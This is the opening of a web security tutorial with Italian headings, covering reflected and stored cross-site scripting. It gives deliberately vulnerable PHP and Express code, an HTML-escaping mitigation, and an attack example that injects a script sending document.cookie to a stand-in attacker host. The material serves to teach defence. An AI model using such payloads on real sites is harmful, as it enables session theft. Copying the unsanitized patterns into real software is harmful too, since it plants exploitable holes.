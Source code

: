# PARTE 5: SICUREZZA HTTP
# Capitoli 15-20

---

# 15. Vulnerabilità HTTP Comuni

## 15.1 Cross-Site Scripting (XSS)

### 15.1.1 - Reflected XSS
```html
<!-- URL vulnerable: http://example.com/search?q=<script>alert('XSS')</script> -->
<h1>Search results for: <?php echo $_GET['q']; ?></h1>

<!-- Attack -->
http://example.com/search?q=<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie)
</script>
```

**Mitigation:**
```javascript
// Sanitize input
function escapeHtml(unsafe) {
  return unsafe
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#039;");
}

app.get('/search', (req, res) => {
  const query = escapeHtml(req.query.q);
  res.send(`<h1>Search results for: ${query}</h1>`);
});
```

### 15.1.2 - Stored XSS
```javascript
// Vulnerable comment system
app.post('/comment', (req, res) => {
  db.insert({ comment: req.body.text }); // NO SANITIZATION!
});

app.get('/comments', (req, res) => {
  const comments = db.getAll();
  res.send(comments.map(c => `<p>${c.comment}</p>`).join(''));
  // <script> tags executed!
});
```
